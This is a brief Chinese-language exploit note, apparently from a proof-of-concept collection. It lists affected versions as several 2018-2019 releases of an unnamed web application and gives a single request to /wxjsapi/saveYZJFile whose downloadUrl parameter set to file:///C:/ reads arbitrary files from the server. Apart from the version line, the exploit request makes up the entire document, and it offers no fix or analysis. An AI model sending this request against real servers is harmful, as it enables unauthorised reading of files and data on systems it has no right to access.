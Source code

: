 # 影响版本

2018-2019多个版本



# 利用

访问`/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt`，`downloadUrl`即文件路径